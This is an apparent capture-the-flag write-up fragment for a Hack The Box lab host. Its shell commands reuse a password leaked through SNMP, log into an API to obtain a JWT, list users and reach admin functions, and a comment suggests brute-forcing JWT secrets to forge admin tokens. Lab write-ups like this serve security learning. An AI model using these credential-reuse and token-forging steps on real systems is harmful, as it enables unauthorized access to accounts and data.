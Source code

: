 ```shell
iso.3.6.1.2.1.25.4.2.1.5.2124 = STRING: "/usr/local/bin/login.py kj23sadkj123as0-d213"
SNIP

# now i tried using that as james password
curl 'http://api.mentorquotes.htb/auth/login' \
  --header 'Content-Type: application/json' \
  --data-raw '{
  "email": "james@mentorquotes.htb",
  "username": "james",
  "password": "kj23sadkj123as0-d213"
}'
#--snip--#
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0

# note: if there was a special claim like {"isAdmin": true} then we would have gone for brute forcing the secret so we sign a new user with admin privileges. but we already have an admin token. It every other case where the user is not a likely admin brute force the jwt to see if you can find its secret.

# requested the /users/ endpoint again
curl -X GET \
  'http://api.mentorquotes.htb/users/' \
  --header 'Content-Type: application/json' \
  --header 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0' | jq .
<<SNIP
[
  {
    "id": 1,
    "email": "james@mentorquotes.htb",
    "username": "james"
  },
  {
    "id": 2,
    "email": "svc@mentorquotes.htb",
    "username": "service_acc"
  },
  {
    "id": 4,
    "email": "hunter@mentorquotes.htb",
    "username": "hunter"
  },
  {
    "id": 5,
    "email": "root@example.com",
    "username": "rootme"
  }
]
SNIP

# clearly james is the admin so I request the /admin endpoint returned from our web path brute force
curl 'http://api.mentorquotes.htb/admin/' \
  --header 'Content-Type: application/json' \
  --header 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0' | jq .
<<SNIP
{
  "admin_funcs": {
    "check db connection": "/check",
    "backup the application": "/backup"
  }
```